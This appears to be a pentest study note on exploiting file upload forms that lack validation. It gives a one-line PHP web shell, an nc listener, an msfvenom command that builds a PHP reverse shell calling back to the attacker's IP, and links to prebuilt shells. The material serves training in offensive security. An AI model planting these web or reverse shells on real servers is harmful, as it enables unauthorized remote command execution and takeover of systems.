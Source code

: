 ## File Upload Attacks – Absent Validation
### Summary

- ###### No validation leads to unauthenticated arbitrary file uploads.
- ###### Attackers can upload PHP web shells or reverse shells directly.
### Steps to Identify
###### 1. Try uploading `.php` files – if accepted, backend has no validation.
###### 2. Check UI clues – file type not restricted in upload dialog (`All Files` shown).
###### 3. Check backend tech:
###### - Try `/index.php`, `/index.asp`, etc.       
###### - Use tools like Wappalyzer, Burp Intruder with:
   ######        - [`web-extensions.txt`](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
## Upload Exploitation
### Web Shells
#### Prebuilt Web Shells
- ###### Example: [phpbash](https://github.com/Arrexel/phpbash)
- ###### Provides terminal-like interface via browser.
- ###### Others in: [`/Web-Shells`](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)
#### Manual Web Shell

```php
<?php system($_REQUEST['cmd']); ?>
```
- ###### Access: `http://SERVER/uploads/shell.php?cmd=id`    
- ###### Simple and functional, useful when external tools unavailable.
### Reverse Shells
#### Prebuilt Reverse Shells
- ###### Example: [Pentestmonkey PHP Shell](https://github.com/pentestmonkey/php-reverse-shell)
- ###### Set `LHOST` and `LPORT`, start `nc` listener.

```bash
$ nc -lvnp 4444
```
#### Generate with `msfvenom`

```bash
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
- ###### Upload and visit `reverse.php` to get shell.
#### Shell received

```bash
connect to [OUR_IP] from [TARGET_IP]
uid=33(www-data) gid=33(www-data)
```
## Wordlists Used

- ###### Web Extensions: [`web-extensions.txt`](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
- ###### Web Shells: [`Web-Shells`](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)
# Tags
>  #Web-Exploitation #Exploitation #File-Upload-Attacks